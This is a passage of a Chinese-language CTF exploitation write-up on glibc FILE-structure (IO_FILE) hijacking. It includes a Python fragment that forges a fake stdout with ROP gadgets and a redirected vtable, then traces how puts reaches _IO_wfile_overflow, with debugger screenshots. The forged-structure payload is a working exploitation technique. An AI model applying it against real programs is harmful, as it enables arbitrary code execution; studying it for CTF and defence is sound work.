```c
  const struct _IO_jump_t *vtable;
};
```

## exp中伪造

> 先这里给出exp中伪造的`stdout`结构体 方便我们后面分析

```python
FILE = IO_FILE_plus_struct()
FILE.flags = 0
FILE._IO_read_ptr = pop_rbp
FILE._IO_read_end = heap_addr + 0x470 - 8
FILE._IO_read_base = leave_ret
FILE._IO_write_base = 0
FILE._IO_write_ptr = 1
FILE._lock = heap_addr - 0xc30
FILE.chain = leave_ret
FILE._codecvt = stdout_addr
FILE._wide_data = stdout_addr - 0x48
FILE.vtable = libc.sym['_IO_wfile_jumps'] + libc_base - 0x20
```

## 动调

目的:通过puts函数触发`_IO_wfile_overflow`函数来调用`_IO_wdoallocbuf`函数

![image-20240515214202580](https://bbs.kanxue.com/upload/attach/202405/994584_SBNZYCD5P9CM2F7.jpg)

### 正常的调用链

> 为了搞清楚劫持原理 这里我们分析puts函数的源码

- puts中调用`_IO_file_xsputn`（stdout->vatble(0xd8)->_IO_file_xsputn(0x38)）

  ![image-20240516010449032](https://bbs.kanxue.com/upload/attach/202405/994584_7PEGY8VD8FSQG5W.jpg)

  - `r14`此时为 也就是_IO_file_jumps+0x38的位置

    ![image-20240516012651838](https://bbs.kanxue.com/upload/attach/202405/994584_N5QH9E59H36Z3XM.jpg)

  - 而`r14`是通过`mov r14, [rdi+0D8h]`取出来的 rdi为`_IO_2_1_stdout_` 根据`0xd8`偏移可以知道是`vatble`属性

    ![image-20240516012935973](https://bbs.kanxue.com/upload/attach/202405/994584_F5AX6WA69QQQF2J.jpg)

- 然后调用`_IO_file_overflow`

  ![image-20240516010742819](https://bbs.kanxue.com/upload/attach/202405/994584_PRKKB48UHJUUX3X.jpg)

- 然后走向`_IO_do_write`

  ![image-20240516010911530](https://bbs.kanxue.com/upload/attach/202405/994584_T2NCRVTYE44VC4H.jpg)

